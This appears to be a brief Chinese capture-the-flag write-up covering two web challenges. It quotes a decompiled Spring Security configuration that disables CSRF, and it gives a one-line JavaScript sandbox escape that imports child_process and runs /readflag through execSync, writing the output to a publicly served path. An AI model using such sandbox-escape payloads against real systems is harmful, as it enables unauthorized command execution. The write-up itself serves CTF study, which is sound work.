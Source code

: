 ## Web
### Deserialize?Upload!
```JAVA
((HttpSecurity)
 ((FormLoginConfigurer)
 ((FormLoginConfigurer)
 ((HttpSecurity)
 ((ExpressionUrlAuthorizationConfigurer.AuthorizedUrl)
 ((ExpressionUrlAuthorizationConfigurer.AuthorizedUrl)http.authorizeRequests().antMatchers(new String[]{"/"})).permitAll().antMatchers(new String[]{"/admin/**"})).authenticated().and()).formLogin().loginProcessingUrl("/login")).permitAll()).and()).csrf().disable();
```

### yet another sandbox

![](attachments/Pasted%20image%2020231029082726.png)

github上有issue

![](attachments/Pasted%20image%2020231021174631.png)

```JS
import("child_process").then(m=>m.execSync('/readflag > /app/asserts/flag'));
```

访问/asserts/flag 就可以了；

![](attachments/Pasted%20image%2020231029085351.png)